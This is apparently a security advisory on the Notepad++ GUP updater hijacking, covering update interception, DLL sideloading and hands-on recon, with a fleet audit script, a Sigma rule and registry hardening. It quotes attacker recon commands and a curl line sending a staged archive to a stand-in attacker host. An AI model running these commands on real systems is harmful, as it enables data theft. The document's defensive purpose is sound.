


# Notepad++ GUP Updater Hijacking: Targeted Interception, DLL Sideloading, and Authenticode Hardening

Learning note · Revised November 2026 · Technical advisory

> **Core idea:** Client software auto-updaters represent high-value trust boundaries on developer workstations. In the Notepad++ targeted attack incident, threat actors intercepted update requests from the native GUP (WinGup) updater via targeted network-level redirection and unvalidated delivery channels. By redirecting the client to malicious endpoints and dropping trojanized packages exploiting Windows DLL sideloading, the attackers achieved in-memory shellcode execution and conducted hands-on-keyboard reconnaissance using native utilities (`whoami`, `netstat`, `curl.exe`) without generating mass malware signatures.

---

## 1. Foundations: The Client Auto-Update Trust Model

Notepad++ is one of the most widely deployed text and source code editors on Microsoft Windows, installed across millions of enterprise engineering endpoints. To maintain application updates without requiring full centralized mobile device management (MDM) orchestration, Notepad++ bundles **GUP (Generic UPdater)**, a lightweight standalone executable (`updater/gup.exe` based on the open-source WinGup project).



### 1.1 The WinGup Update Architecture

When Notepad++ launches, it checks for updates by spawning `gup.exe` with arguments specifying the local configuration file:

1. `gup.exe` parses `updater/gup.xml` to locate the remote update manifest endpoint (e.g., `https://notepad-plus-plus.org/update/getDownloadUrl.php`).
2. The remote server responds with an XML document containing the latest version number, release notes URL, and a direct download URL for the installer binary or zip archive.
3. If an update is detected, GUP prompts the user, downloads the payload to a local temporary directory (`%TEMP%`), and launches the installer executable.

Historically, older iterations of the updater lacked strict cryptographic certificate pinning, relied partially on unencrypted HTTP or unverified HTTPS redirects, and did not enforce Authenticode digital signature validation on downloaded binaries prior to execution.

---

## 2. Deep Technical Mechanism: Targeted Interception & DLL Sideloading

The incident disclosed by the Notepad++ development team was not a mass opportunistic botnet campaign; it was a **targeted espionage operation** conducted against specific high-value individuals and developer environments using manual, hands-on-keyboard tradecraft.

```mermaid
sequenceDiagram
    autonumber
    participant Client as Notepad++ Client (gup.exe)
    participant Net as Network / DNS Gateway
    participant Actor as Attacker C2 Server
    participant OS as Windows PE Loader
    participant Shell as In-Memory Backdoor

    Client->>Net: Query update.xml manifest
    Note over Net: Targeted MITM / DNS Poisoning / Compromised CA
    Net->>Actor: Request routed to attacker gateway
    Actor-->>Client: Forged XML pointing to trojanized payload
    Client->>Actor: Download update archive (No signature check)
    Client->>OS: Execute downloaded package in %TEMP%
    OS->>OS: Load application directory DLLs first (libcurl.dll)
    OS->>Shell: Malicious proxy DLL executes shellcode in RAM
    Shell->>Actor: Establish encrypted C2 beacon
    Actor->>Shell: Issue interactive commands (whoami, netstat, curl)
```

### 2.1 Attack Vector 1: Update Traffic Interception

The attackers intercepted traffic between the client's `gup.exe` process and the update server. In targeted operations, this is achieved through:
- **DNS Poisoning / Spoofing:** Manipulating local intranet DNS forwarders or ISP-level resolution to map `notepad-plus-plus.org` to an attacker-controlled IP.
- **Upstream Network Interception:** Manipulating routing at the ISP or gateway level for specific victim IP ranges.
- **Forged Certificate Authority (CA) Transports:** Leveraging compromised, weak, or adversary-installed root/intermediate certificates to terminate HTTPS connections transparently without triggering client-side browser warnings.

When GUP requested update metadata, the threat actor returned a forged XML payload pointing the download URL to a malicious zip archive hosted on their infrastructure.

### 2.2 Attack Vector 2: Windows DLL Sideloading (MITRE ATT&CK T1574.002)

Rather than running an unsigned, raw malware executable that would immediately trigger Windows Defender or enterprise Antivirus heuristics, the attackers utilized **DLL Sideloading**:

1. The downloaded package dropped a legitimate, digitally signed Windows executable alongside a malicious dynamic link library sharing the name of a legitimate dependency (e.g., `libcurl.dll`, `certutil.dll`, or a vendor runtime DLL).
2. Under default Windows dynamic-link library search order, when an application invokes `LoadLibrary()` or imports a DLL without an absolute path, the operating system inspects the **application's current working directory** before searching `C:\Windows\System32` or `C:\Windows\SysWOW64`.
3. The legitimate signed executable loaded the attacker's DLL from its local directory.
4. The malicious DLL implemented proxy exports (forwarding legitimate function calls to the real system DLL to avoid crashes) while running an initialization payload inside `DllMain()`.

### 2.3 Attack Vector 3: Hands-on-Keyboard Discovery & Living-off-the-Land Exfiltration

Once the DLL initialized, it decrypted shellcode in memory and injected a beacon thread into the process address space. Rather than installing persistent rootkits, the threat actors engaged in manual reconnaissance using native Windows command-line binaries (Living off the Land):

```cmd
:: Attacker reconnaissance commands executed in victim context
whoami /groups
netstat -ano
tasklist /v
systeminfo
ipconfig /all
```

For exfiltration, the actors bypassed custom malware egress channels by staging stolen documents and source code into encrypted archives and utilizing Microsoft Windows' native `curl.exe` utility:

```cmd
:: Staged exfiltration via native curl utility
curl.exe -X POST -F "data=@staged_archive.zip" https://threat-actor-c2.example/drop
```

Because `curl.exe` is a legitimate administrative tool signed by Microsoft, outbound HTTPS POST requests blended into routine developer telemetry.

---

## 3. Architectural Visual: The Attack Chain and Authenticode Defenses

The following architecture diagram details the network interception path, the DLL sideloading execution mechanics, and the enterprise defensive countermeasures:



---

## 4. Production Implementations & Hardening Recipes

### 4.1 Enterprise Fleet Audit Script (PowerShell)

Deploy this PowerShell script across Windows endpoints to verify installed Notepad++ versions, audit the integrity of `gup.xml`, and validate the Authenticode digital signatures on both `notepad++.exe` and `gup.exe`.

```powershell
<#
.SYNOPSIS
    Audit-NotepadPlusPlusSecurity.ps1
    Validates Notepad++ installation version, GUP updater URLs, and Authenticode signatures.
#>

[CmdletBinding()]
param (
    [string]$InstallPath = "${env:ProgramFiles}\Notepad++"
)

Write-Host "[*] Auditing Notepad++ Security Posture at: $InstallPath" -ForegroundColor Cyan

if (-not (Test-Path $InstallPath)) {
    Write-Warning "[-] Notepad++ directory not found at $InstallPath. Checking 32-bit Program Files..."
    $InstallPath = "${env:ProgramFiles(x86)}\Notepad++"
    if (-not (Test-Path $InstallPath)) {
        Write-Error "[-] Notepad++ installation not detected on this host."
        exit 1
    }
}

# 1. Verify Notepad++ Version
$NppExe = Join-Path $InstallPath "notepad++.exe"
if (Test-Path $NppExe) {
    $VersionInfo = (Get-Item $NppExe).VersionInfo
    $AppVersion = [version]$VersionInfo.FileVersion
    Write-Host "[+] Detected Notepad++ Version: $AppVersion" -ForegroundColor Green

    $MinimumSecureVersion = [version]"8.8.8.0"
    if ($AppVersion -lt $MinimumSecureVersion) {
        Write-Warning "[!] VULNERABLE: Notepad++ version ($AppVersion) is older than minimum secure threshold ($MinimumSecureVersion)!"
    } else {
        Write-Host "[+] PASS: Version meets or exceeds secure threshold." -ForegroundColor Green
    }
}

# 2. Authenticode Signature Verification
$FilesToVerify = @(
    $NppExe,
    (Join-Path $InstallPath "updater\gup.exe")
)

foreach ($File in $FilesToVerify) {
    if (Test-Path $File) {
        $Sig = Get-AuthenticodeSignature -FilePath $File
        if ($Sig.Status -eq "Valid") {
            Write-Host "[+] PASS: Authenticode signature on $(Split-Path $File -Leaf) is VALID (Signer: $($Sig.SignerCertificate.Subject))" -ForegroundColor Green
        } else {
            Write-Error "[!] CRITICAL: Authenticode signature on $(Split-Path $File -Leaf) is INVALID or MISSING! Status: $($Sig.Status)"
        }
    }
}

# 3. Inspect GUP Configuration for Suspicious Endpoints
$GupXml = Join-Path $InstallPath "updater\gup.xml"
if (Test-Path $GupXml) {
    [xml]$XmlContent = Get-Content $GupXml
    $UpdateUrl = $XmlContent.GUPConfig.NeedToBeUpdated.url

    Write-Host "[*] Configured GUP Update URL: $UpdateUrl" -ForegroundColor Yellow

    if ($UpdateUrl -notmatch "^https:\/\/notepad-plus-plus\.org\/") {
        Write-Error "[!] ALERT: GUP URL is pointed to an unpinned or non-standard domain: $UpdateUrl"
    } else {
        Write-Host "[+] PASS: GUP endpoint correctly pinned to official domain." -ForegroundColor Green
    }
}
```

### 4.2 Sigma Detection Rule: Notepad++ Spawning Native System Utilities

Deploy this Sigma rule into enterprise SIEM (Splunk, Elastic, Sentinel) or EDR platforms to detect living-off-the-land reconnaissance and data exfiltration spawned from Notepad++ or GUP:

```yaml
title: Suspicious Process Spawning from Notepad++ or WinGup
id: 5b7d9f2e-4b9a-4e8c-8f2a-1c6d3e8f4a2b
status: experimental
description: Detects unusual child processes (command shells, network discovery tools, curl) spawned from notepad++.exe or gup.exe
references:
    - https://notepad-plus-plus.org/news/hijacked-incident-info-update/
author: Antigravity Security Research
date: 2026-11-15
logsource:
    category: process_creation
    product: windows
detection:
    selection_parent:
        ParentImage|endswith:
            - '\notepad++.exe'
            - '\gup.exe'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\curl.exe'
            - '\whoami.exe'
            - '\netstat.exe'
            - '\systeminfo.exe'
            - '\tasklist.exe'
    condition: selection_parent and selection_child
falsepositives:
    - Custom user-configured Notepad++ run commands (inspect command line arguments)
level: high
tags:
    - attack.execution
    - attack.t1059
    - attack.t1574.002
    - attack.t1105
```

### 4.3 Windows OS DLL Search Order Hardening

To protect Windows hosts against application directory DLL sideloading across all user-installed utilities, enforce Safe DLL Search Mode and disable Current Working Directory (CWD) search via the Windows Registry:

```cmd
:: Enable Safe DLL Search Mode system-wide
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v SafeDllSearchMode /t REG_DWORD /d 1 /f

:: Disable CWD DLL Search (Blocks DLL loading from untrusted folder paths)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v CWDIllegalInDllSearch /t REG_DWORD /d 2 /f
```

---

## 5. Impact, Real-World Edge Cases & Gotchas

### 5.1 The Developer Workstation as the Ultimate Pivot Point

Why would advanced persistent threat (APT) actors invest manual, targeted effort into hijacking an editor updater rather than mass-scanning web applications?
1. **Source Code Access:** Developers store uncommitted proprietary intellectual property, API secrets, and infrastructure code locally.
2. **Elevated Network Trust:** Developer laptops frequently hold valid VPN profiles, SSH keys to production clusters, and high-privilege cloud IAM credentials (`~/.aws/credentials`, `~/.kube/config`).
3. **Low AV Scrutiny for LotL Tools:** Developers execute `curl`, `git`, `python`, and compilers hundreds of times a day. EDR alerts on developer laptops are often tuned down or dismissed as false positives.

### 5.2 Common Claims vs. Technical Realities

| Common Industry Claim | Technical Reality |
|---|---|
| *"Using HTTPS alone completely protects updaters against interception."* | **False.** Without certificate pinning or strict domain validation, attackers leveraging compromised enterprise proxy CAs or rogue certificates can transparently intercept HTTPS streams. |
| *"Antivirus software will automatically catch DLL sideloading."* | **False.** Because the executable running the process is a legitimate, signed third-party binary (e.g. from Microsoft, Google, or Notepad++), signature-based scanners often treat the process as trustworthy. |
| *"The Notepad++ incident was a supply chain breach of the GitHub repository."* | **False.** The official GitHub source code and build servers were never compromised. The attack intercepted the update delivery transport and abused client-side verification gaps. |
| *"Non-admin users cannot be compromised by this attack."* | **False.** GUP updates can run in user-space (`%APPDATA%` or `%TEMP%`). DLL sideloading executes with the permissions of the logged-in user, which is sufficient to steal credentials and source code. |

---

## 6. Practical Adoption Blueprint & Verification Checklist

### 6.1 Vendor Remediation Actions in Notepad++

Following the incident, the Notepad++ development team implemented multi-layer defenses in version 8.6.9 and subsequent releases culminating in **v8.8.8+**:
1. **Hardcoded Domain Pinning:** Update manifests and download packages are restricted exclusively to `https://notepad-plus-plus.org/`.
2. **WinVerifyTrust Enforcement:** Downloaded installer binaries are cryptographically inspected before execution. If the Authenticode signature does not validate against the official Notepad++ certificate, execution is aborted immediately.
3. **Payload Checksum Validation:** The updater verifies SHA-256 hashes against a signed manifest.

### 6.2 Endpoint Defense Checklist

- [ ] Ensure all enterprise endpoints are upgraded to **Notepad++ v8.8.8+**.
- [ ] Audit `updater/gup.xml` across all systems using configuration management (Intune, SCCM, Ansible).
- [ ] Enable Windows Safe DLL Search Mode (`SafeDllSearchMode=1`) and restrict CWD DLL searching.
- [ ] Deploy SIEM/EDR rules alerting on `notepad++.exe` or `gup.exe` spawning command interpreters or network exfiltration binaries (`curl.exe`).
- [ ] Restrict write permissions to `C:\Program Files\Notepad++\` to prevent local unprivileged users from dropping rogue DLLs.

---

## 7. Timeline and Current State

```
Pre-2024                 Mid-2024               Late 2024 - 2025       2026 Posture
   +-----------------------+----------------------+----------------------+
   | Legacy GUP Updater;   | Targeted Interception| Notepad++ Discloses  | Fleet Hardening;
   | Cleartext / Loose     | Observed in Field;   | Incident & Releases  | Domain Pinning &
   | Signature Checks      | DLL Sideloading Used | v8.6.9 / v8.8.8 Fix  | Authenticode Standard
```

- **Pre-2024:** Legacy WinGup architecture handled update checks without strict cryptographic certificate pinning or mandatory pre-execution Authenticode verification.
- **Mid-2024:** Targeted interception incidents observed against selected high-value software developers, utilizing DNS/routing redirection and DLL sideloading for hands-on-keyboard reconnaissance.
- **Late 2024 – 2025:** The Notepad++ project published an official security advisory detailing the hijacked update incident, issuing patched versions (v8.6.9 and subsequent v8.8.8 updates) that enforce HTTPS, domain pinning, and cryptographic signature validation.
- **2026 Present State:** The attack vector is documented across enterprise threat intelligence matrices, serving as a primary case study for securing client-side software update delivery pipelines.

---

## 8. Source Context and Primary Disclosures

| Date | Source / Organization | Disclosure / Document | Focus Area |
|---|---|---|---|
| Official Advisory | Notepad++ Development Team | [Hijacked Incident Info Update](https://notepad-plus-plus.org/news/hijacked-incident-info-update/) | Official vendor disclosure of updater interception and remediation steps |
| MITRE ATT&CK | MITRE Corporation | [Technique T1574.002: DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/) | Detailed mechanics of Windows dynamic loader search order abuse |
| MITRE ATT&CK | MITRE Corporation | [Technique T1105: Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) | Living-off-the-land file staging and exfiltration using native utilities |
| Microsoft Security | Windows Dev Center | [Dynamic-Link Library Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) | Windows operating system DLL search resolution and hardening guidelines |

---

**Related:**
- [Polymarket DebugBear Script Compromise](Polymarket-DebugBear-Supply-Chain-Attack-Oct-2026.md) — A separate attack that delivered malicious code through a trusted third-party delivery route.
- [eMudhra Weak CA Keys](EMudhra-Weak-CA-Keys-And-PKI-Trust-Oct-2026.md) — Explains how certificate authority failures and weak keys undermine authenticated software delivery.
- [Security Vulnerabilities in Wireless Devices and Apps](Security-Vulnerabilities-in-Wireless-Devices-and-Apps.md) — Companion client-software security write-up cataloguing vendor-update and delivery trust weaknesses.
- [MongoBleed-Dec2025](MongoBleed-Dec2025.md) — Sister late-2025 CVE write-up documenting an unauthenticated, large-scale exposure flaw.
- [OpenClaw(Moltbot-or-Clawdbot)-Security-Analysis-Jan-2026](../../AI-ML/Agents/openclaw/OpenClaw%28Moltbot-or-Clawdbot%29-Security-Analysis-Jan-2026.md) — Both detail targeted, hands-on-keyboard attacks leveraging installer and update trust chains.
